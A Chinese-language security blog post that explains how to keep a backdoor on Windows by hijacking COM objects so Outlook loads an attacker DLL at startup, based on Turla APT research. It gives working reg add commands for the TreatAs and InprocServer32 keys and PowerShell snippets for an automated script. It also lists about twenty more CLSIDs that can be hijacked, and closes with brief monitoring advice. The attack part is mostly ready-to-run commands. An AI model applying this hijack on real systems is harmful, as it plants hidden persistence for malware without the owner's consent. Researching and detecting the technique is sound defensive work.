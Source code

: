 ```yaml
---
layout: post
title: Use COM Object hijacking to maintain persistence——Hijack Outlook
---
```




## 0x00 前言
---

APT组织Trula使用的一个后门利用方法，通过COM劫持实现在Outlook启动时加载dll，特点是只需要当前用户的权限即可实现。

本文将参考公开的资料对这个方法进行测试，编写一个自动化利用脚本，扩展用法，分享多个可用的劫持位置，结合利用思路给出防御建议

参考资料：

https://www.welivesecurity.com/wp-content/uploads/2018/08/Eset-Turla-Outlook-Backdoor.pdf

## 0x01 简介
---

本文将要介绍以下内容：

- 利用方法
- Powershell脚本实现细节
- 扩展用法
- 防御建议

## 0x02 利用方法
---

Outlook在启动时会加载多个COM对象，我们可以通过修改注册表的方式劫持Outlook的启动过程，用来加载DLL

这里的利用方法需要添加两个注册表，修改两个COM对象

由于是修改HKCU的注册表，所以使用当前用户权限即可

### （1）COM对象1，用来加载第二个COM对象

添加如下注册表：

```
HKCU\Software\Classes\CLSID\{84DA0A92-25E0-11D3-B9F7-00C04F4C8F5D}\TreatAs = {49CBB1C7-97D1-485A-9EC1-A26065633066}
```

通过命令行实现的命令如下：

```
reg add HKCU\Software\Classes\CLSID\{84DA0A92-25E0-11D3-B9F7-00C04F4C8F5D}\TreatAs /t REG_SZ /d "{49CBB1C7-97D1-485A-9EC1-A26065633066}" /f
```

### （2）COM对象2，用来加载DLL

添加如下注册表：

```
HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066} = Mail Plugin
HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066}\InprocServer32 = [Path to the backdoor DLL]
HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066}\InprocServer32\ThreadingModel = Apartment
```

通过命令行实现的命令如下：

```
reg add HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066} /t REG_SZ /d "Mail Plugin" /f
reg add HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066}\InprocServer32 /t REG_SZ /d "c:\\test\\calc.dll" /f
reg add HKCU\Software\Classes\CLSID\{49CBB1C7-97D1-485A-9EC1-A26065633066}\InprocServer32 /v ThreadingModel /t REG_SZ /d "Apartment" /f
```

calc.dll可使用之前的测试DLL，地址为：https://github.com/3gstudent/test/blob/master/calc.dll

添加注册表后启动Outlook，多次加载DLL，弹出多个计算器，这里可以使用互斥量确保只弹出一个计算器，DLL的下载地址：

https://github.com/3gstudent/test/blob/master/calcmutex.dll

对于64位Windows系统，如果安装了32位的Office，两个COM对象的注册表位置需要修改为`HKCU\Software\Classes\Wow6432Node\CLSID\`

## 0x03 Powershell脚本实现细节
---

实现流程如下：

1. 判断操作系统位数
2. 判断Office软件版本
3. 如果是64位系统安装32位Office，注册表的位置为`HKCU\Software\Classes\Wow6432Node\CLSID\`，否则，注册表的位置为`HKCU\Software\Classes\CLSID\`
4. 添加对应注册表

具体代码如下：

#### 1. 判断操作系统位数

```
if ([IntPtr]::Size -eq 8)
{
    '64-bit'
}
else
{
    '32-bit'
}
```

#### 2. 判断安装office软件版本

查看默认安装路径`C:\Program Files\Microsoft Office`是否包含文件夹`MEDIA`

如果包含，那么为64位Office，否则为32位Office

powershell代码如下：

```
Try  
{  
	dir C:\Program Files\Microsoft Office\MEDIA
	Write-Host "Microsoft Office: 64-bit"
}
Catch  
{ 
	Write-Host "Microsoft Office: 32-bit"
}
```

实现代码已开源，地址如下：

https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-OutlookPersistence.ps1

代码实现了自动判断操作系统位数和Office软件版本，添加对应的注册表项

## 0x04 扩展用法
---

使用Process Monitor监控Outlook启动过程，查找是否有其他可用的COM对象

经测试，我在Outlook2013上找到多个可用方法

COM对象1替换成以下任意一个，COM对象2保持不变

可用的COM对象1：

- {B056521A-9B10-425E-B616-1FCD828DB3B1}
- {EFEF7FDB-0CED-4FB6-B3BB-3C50D39F4120}
- {93E5752E-B889-47C5-8545-654EE2533C64}
- {56FDF344-FD6D-11D0-958A-006097C9A090}
- {2163EB1F-3FD9-4212-A41F-81D1F933597F}
- {A6A2383F-AD50-4D52-8110-3508275E77F7}
- {F959DBBB-3867-41F2-8E5F-3B8BEFAA81B3}
- {88D96A05-F192-11D4-A65F-0040963251E5}
- {807583E5-5146-11D5-A672-00B0D022E945}
- {529A9E6B-6587-4F23-AB9E-9C7D683E3C50}
- {3CE74DE4-53D3-4D74-8B83-431B3828BA53}
- {A4B544A1-438D-4B41-9325-869523E2D6C7}
- {33C53A50-F456-4884-B049-85FD643ECFED}
- {C90250F3-4D7D-4991-9B69-A5C5BC1C2AE6}
- {275C23E2-3747-11D0-9FEA-00AA003F8646}
- {C15BB852-6F97-11D3-A990-00104B2A619F}
- {ED475410-B0D6-11D2-8C3B-00104B2A6676}
- {1299CF18-C4F5-4B6A-BB0F-2299F0398E27}
- {DCB00C01-570F-4A9B-8D69-199FDBA5723B}
- {C90250F3-4D7D-4991-9B69-A5C5BC1C2AE6}

## 0x05 防御建议
---

监控以下注册表项下的创建和修改操作：

- HKCU\Software\Classes\CLSID\
- HKCU\Software\Classes\Wow6432Node\CLSID\

## 0x06 小结
---

本文介绍了通过COM劫持实现在Outlook启动时加载dll的方法，分享多个可用的劫持位置，结合利用思路给出防御建议


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)









